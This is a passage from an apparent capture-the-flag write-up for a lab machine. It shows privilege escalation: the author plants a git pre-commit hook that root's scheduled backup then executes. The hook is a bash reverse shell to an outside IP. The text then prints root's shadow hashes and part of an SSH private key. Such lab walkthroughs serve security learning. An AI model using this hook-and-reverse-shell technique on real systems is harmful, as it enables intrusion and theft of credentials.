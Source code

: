 ```bash
drwxrwxr-x 8 dev01 dev01 4096 May 24 11:19 ..
-rwxrwxr-x 1 dev01 dev01  478 Mar 23 01:18 applypatch-msg.sample
-rwxrwxr-x 1 dev01 dev01  896 Mar 23 01:18 commit-msg.sample
-rwxrwxr-x 1 dev01 dev01 3327 Mar 23 01:18 fsmonitor-watchman.sample
-rwxrwxr-x 1 dev01 dev01  189 Mar 23 01:18 post-update.sample
-rwxrwxr-x 1 dev01 dev01  424 Mar 23 01:18 pre-applypatch.sample
-rwxrwxr-x 1 dev01 dev01 1642 Mar 23 01:18 pre-commit.sample
-rwxrwxr-x 1 dev01 dev01 1492 Mar 23 01:18 prepare-commit-msg.sample
-rwxrwxr-x 1 dev01 dev01 1348 Mar 23 01:18 pre-push.sample
-rwxrwxr-x 1 dev01 dev01 4898 Mar 23 01:18 pre-rebase.sample
-rwxrwxr-x 1 dev01 dev01  544 Mar 23 01:18 pre-receive.sample
-rwxrwxr-x 1 dev01 dev01 3610 Mar 23 01:18 update.sample
```

Git Hooks are scripts executed by the server when a commit is pushed to a repository.
There are no pre-configured hooks, and for us to escalate privileges something has to be pushed / commited / updated. 
Upload `pspy64` to the victim and run it.

```bash
dev01@opensource:/dev/shm$ ./pspy64
[... snip ...]
2022/05/24 09:02:01 CMD: UID=0    PID=11447  | git commit -m Backup for 2022-05-24 
2022/05/24 09:02:01 CMD: UID=0    PID=11449  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
2022/05/24 09:02:01 CMD: UID=0    PID=11448  | git push origin main 
```

It seems like backups are commited frequently by **UID 0** (root), we should be able to exploit this by creating our own pre-commit / commit-msg / prepare-commit-msg script. 

```bash
dev01@opensource:~/.git/hooks$ ls -al pre-commit
-rwxrwxr-x 1 dev01 dev01 54 May 24 11:12 pre-commit

dev01@opensource:~/.git/hooks$ cat pre-commit
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.17/4488 0>&1
```

Wait for the backup to be made and we should get our reverse shell! 

```bash
➜  chisel_1.7.7 nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.15.17] from (UNKNOWN) [10.129.70.252] 43612
bash: cannot set terminal process group (21874): Inappropriate ioctl for device
bash: no job control in this shell
root@opensource:/home/dev01# id
uid=0(root) gid=0(root) groups=0(root)

root@opensource:/home/dev01# cat /root/root.txt
6d931e05a808f004c7ec976de9be27ff

root@opensource:/home/dev01# cat /etc/shadow
root:$6$5sA85UVX$HupltM.bMqXkLc269pHDk1lryc4y5LV0FPMtT3x.yUdbe3mGziC8aUXWRQ2K3jX8mq5zItFAkAfDgPzH8EQ1C/:19072:0:99999:7:::
dev01:$6$KxPkBXel$7cqEmnerc0RmIaUGVdGLXlbC61.2x5bY0DLC/j2VDHG3mAaqeWFfQiuHOXmQss91XNn0FybSdfl51vFfKuwRh/:19073:0:99999:7:::

root@opensource:/home/dev01# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIJKAIBAAKCAgEAwwPG6v8jiKw488NGHm0b1HPclB7gIM7D1rASiaKimF8cKlv7
Nhqprrg39wAFerkxKJ/U/J5NMZpWFJ2Hl4b1mrHFo5e7p2urwIcJ40Y3wBPO1L62
S2UERAqlwuaxja1Uuus8xztAfQ9scYONxBA6YEOe+Arb5NDp37HoTq8/tBFSA4R4
bDGYwneZSDfJwJ9t0UwaBlpXs0+Tm77Dtx9s9Zj4thBvaGho93CkonXi5eBlgsCX
EAJZi22aZdJNcXDSgRtA9o8FSyNTd4hsTr+iYN9taiDnXCbaC2geXuEYWl8/FBTr
```